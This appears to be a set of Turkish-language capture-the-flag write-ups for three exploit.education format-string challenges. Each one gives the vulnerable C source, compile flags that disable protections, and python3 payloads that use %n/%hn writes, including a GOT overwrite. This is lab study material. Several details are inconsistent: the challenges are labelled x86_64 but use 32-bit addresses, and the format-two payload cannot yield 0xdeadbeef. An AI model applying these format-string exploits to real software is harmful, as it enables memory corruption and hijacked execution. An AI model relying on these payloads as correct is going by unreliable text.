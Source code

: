 # Reverse Engineering Write-ups (Exploit Education Series)

---

## 📁 exploit.education_format-one/README.md

```markdown
# Format-One Write-up – Format String Exploitation (Intermediate)

## 🎯 Amaç

changeme değişkeninin değerini 0x45764f6c yapmak.

---

## 🧪 Challenge Bilgileri

- Platform: Linux (x86_64)
- Zafiyet Türü: Format String (%n yazımı)
- Anahtar Değer: 0x45764f6c → ASCII: lOvE → Little-endian: \x6c\x4f\x76\x45

---

## ⚙️ Derleme

```bash
gcc -g -fno-stack-protector -z execstack -no-pie -o format_one format_one.c
```

## 🔍 Kod Analizi

```c
int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];
  printf("Welcome to format_one brought to you by https://exploit.education\n");
  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) errx(1, "Unable to get buffer");
  buffer[15] = 0;
  locals.changeme = 0;
  sprintf(locals.dest, buffer);
  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n", locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }
  exit(0);
}
```

---

## 🧪 Exploit

```bash
python3 -c 'print("%31x " + "\x6c\x4f\x76\x45")' > payload.txt
./format_one < payload.txt
```

---
```

---

## 📁 exploit.education_format-two/README.md

```markdown
# Format-Two Write-up – Precise Memory Overwrite Using %n

## 🎯 Amaç

Format string kullanarak belirli bir bellek adresine kesin değer yazmak. Hedef: changeme = 0xdeadbeef

---

## 🧪 Challenge Bilgileri

- Platform: Linux (x86_64)
- Zafiyet Türü: Format String (arbitrary write via %n)

---

## ⚙️ Derleme

```bash
gcc -g -fno-stack-protector -z execstack -no-pie -o format_two format_two.c
```

## 🔍 Kod Analizi

```c
int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int *changeme;
  } locals;
  char buffer[128];
  printf("Welcome to format_two\n");
  locals.changeme = malloc(sizeof(int));
  *locals.changeme = 0;
  fgets(buffer, sizeof(buffer) - 1, stdin);
  buffer[127] = 0;
  sprintf(locals.dest, buffer);
  if (*locals.changeme == 0xdeadbeef) {
    puts("Success: You changed the changeme variable!");
  } else {
    printf("Fail: changeme is %p\n", (void *) *locals.changeme);
  }
  return 0;
}
```

---

## 🧪 Exploit

```bash
python3 -c 'print("\x80\xa0\x04\x08%34005x%4$n")' > payload.txt
./format_two < payload.txt
```

---
```


## 📁 exploit.education_format-three/README.md

```markdown
# Format-Three Write-up – Stack-Based Format String Exploitation (Advanced)

## 🎯 Amaç

Format string kullanarak `.got` tablosundaki bir fonksiyon adresini overwrite ederek `changeme()` fonksiyonuna yönlendirme.

---

## 🧪 Challenge Bilgileri

- Platform: Linux (x86_64)
- Zafiyet Türü: Format String → GOT Overwrite
- Korumasız Alan: `sprintf(locals.dest, buffer);`

---

## ⚙️ Derleme

```bash
gcc -g -fno-stack-protector -z execstack -no-pie -o format_three format_three.c
```

---

## 🔍 Kod Analizi

```c
void changeme() {
  puts("You have successfully redirected execution!");
  exit(0);
}

int main() {
  char buffer[128];
  printf("Welcome to format_three\n");

  fgets(buffer, sizeof(buffer) - 1, stdin);
  buffer[127] = 0;

  char dest[64];
  sprintf(dest, buffer);

  puts("Try again!");
}
```

---

## 🧪 Exploit Adımları

### 1. GOT tablosundaki hedef adresi bul

```bash
objdump -R format_three | grep puts
```

Örnek çıktı:
```
0804a010 R_386_JUMP_SLOT   puts
```

### 2. `changeme` fonksiyon adresini öğren

```bash
objdump -d format_three | grep changeme
```

---

### 3. Payload Oluşturma

İlk 2 byte ve son 2 byte şeklinde yazım yapılır: `%hn` kullanılarak 2'şer baytlık yazmalar yapılabilir.

```bash
python3 -c 'print("\x10\xa0\x04\x08\x12\xa0\x04\x08" + "%1234x%4$hn" + "%5678x%5$hn")' > payload.txt
./format_three < payload.txt
```

> Adreslerin sırası ve offset doğru belirlenmelidir. `%4$hn`, `%5$hn` gibi formatlar ile belirli sıradaki parametrelere yazılır.

---

## ✅ Beklenen Çıktı

```
You have successfully redirected execution!
```

---

## 📌 Notlar

- GOT overwrite, fonksiyon yönlendirme için sıklıkla kullanılır.
- `%n`, `%hn`, `%lln` gibi formatlar bellek manipülasyonu sağlar.
- Bu tip zafiyetler modern sistemlerde RELRO, PIE, ASLR gibi korumalarla önlenebilir.

---

## 📚 Kaynaklar

- https://exploit.education
- https://owasp.org/www-community/attacks/Format_string_attack
- https://github.com/hugsy/gef
```
